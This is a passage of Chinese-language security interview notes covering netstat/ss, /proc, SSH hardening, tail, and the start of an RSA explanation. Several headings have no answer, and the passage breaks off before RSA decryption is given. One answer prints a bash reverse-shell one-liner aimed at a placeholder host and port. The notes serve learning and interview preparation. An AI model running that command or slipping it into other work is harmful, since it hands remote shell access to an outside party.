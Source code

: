 ```
netstat -antp` `ss -l
```

ss的优势在于它能够显示更多更详细的有关TCP和连接状态的信息，而且比netstat更快速更高效。

#### <span id="head99">反弹 shell 的常用命令？一般常反弹哪一种 shell？为什么?</span>

```
bash -i>&/dev/tcp/x.x.x.x/4444 0>&1
```

#### <span id="head100">通过Linux系统的/proc目录 ，能够获取到哪些信息，这些信息可以在安全上有哪些应用？</span>

```
ls /proc
```

系统信息，硬件信息，内核版本，加载的模块，进程

#### <span id="head101"> linux系统中，检测哪些配置文件的配置项，能够提升SSH的安全性。</span>

`/etc/ssh/sshd___config`
iptables配置

#### <span id="head102"> 如何一条命令查看文件内容最后一百行</span>

```
tail -n 100 filename
```

### <span id="head103"> Windows</span>

#### <span id="head104"> 如何加固一个域环境下的Windows桌面工作环境？请给出你的思路。</span>

## <span id="head105"> 密码学</span>

### <span id="head106"> AES／DES的具体工作步骤</span>

### <span id="head107"> RSA算法</span>

加密:
$$
密文＝明文^EmodN
$$
RSA加密是对明文的E次方后除以N后求余数的过程

$$
公钥＝(E,N)
$$
解密:
